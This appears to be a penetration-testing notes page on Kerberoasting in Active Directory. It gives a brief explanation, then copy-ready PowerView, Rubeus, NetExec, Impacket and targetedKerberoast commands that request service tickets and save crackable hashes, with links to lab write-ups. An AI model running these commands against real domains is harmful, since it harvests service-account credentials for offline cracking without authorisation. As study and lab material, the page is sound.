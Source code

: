```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Kerberoasting

## TL;DR

Kerberoasting is an attack on the ST and [SPNs](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names). SPNs are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

<figure><img src="../../../../.gitbook/assets/kerberoasting_process.png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

Typically, [Kerberoasting](kerberoasting.md) happens after compromising a domain user. However, according to [new research](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/), it is possible to perform this attack with an account susceptible to ASREPRoast (for an example of this check [Rebound](../../../../boxes/boxes/insane/rebound.md#kerberoasting)).

## Windows

{% tabs %}
{% tab title="PowerView" %}
```powershell
# confirm that the target account has SPN
Get-DomainUser 'sqldev' | Select serviceprincipalname
# kerberoast the target account
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
# Clear the SPNs of the target account
Set-DomainObject -Identity sqldev -Clear serviceprincipalname
```
{% endtab %}

{% tab title="Rubeus" %}
{% code overflow="wrap" %}
```powershell
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap
```
{% endcode %}
{% endtab %}

{% tab title="Rubeus (ASREPRoast Acc)" %}
{% code overflow="wrap" %}
```powershell
.\Rubeus.exe kerberoast /domain:<domain> /dc:<ip> /nopreauth:<user> /spns:<username-list>
```
{% endcode %}
{% endtab %}
{% endtabs %}

For an example of Kerberoasting with Rubeus check [here](https://x7331.gitbook.io/boxes/boxes/boxes/insane/sizzle#path-to-victory).

## Linux

{% tabs %}
{% tab title="NetExec" %}
```bash
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt
```
{% endtab %}

{% tab title="Impacket" %}
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN/user -request -outputfile spns.lst
```
{% endtab %}

{% tab title="Impacket (ASREPRoast Acc)" %}
{% code overflow="wrap" %}
```bash
sudo python3 /opt/impacket/examples/GetUserSPNs.py -no-preauth jjones -usersfile dom_users -dc-host 10.10.11.231 rebound.htb/ -outputfile kerb.txt
```
{% endcode %}
{% endtab %}

{% tab title="targetedKerberoast" %}
```bash
targetedKerberoast.py -v -d <DOMAIN_FQDN> -u <USER> -p <PASSWORD>
```
{% endtab %}
{% endtabs %}

For an example of Kerberoasting with NetExec check [here](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting).

## Resources

{% tabs %}
{% tab title="Demo" %}
{% embed url="https://www.youtube.com/watch?v=-3MxoxdzFNI" %}
Kerberoasting in 14 minutes!
{% endembed %}
{% endtab %}

{% tab title="GetUserSPNs" %}
{% embed url="https://www.youtube.com/watch?v=xH5T9-m9QXw" %}
How GetUserSPNs script work behind the scenes!
{% endembed %}
{% endtab %}

{% tab title="Lecture" %}
{% embed url="https://www.youtube.com/watch?v=Jaa2LmZaNeU" %}
{% endtab %}

{% tab title="Article" %}
{% embed url="https://adsecurity.org/?p=3458" %}
A great article detailing the Kerberoasting process.
{% endembed %}
{% endtab %}

{% tab title="targetedKerberoast" %}
{% embed url="https://github.com/ShutdownRepo/targetedKerberoast" %}
{% endtab %}
{% endtabs %}
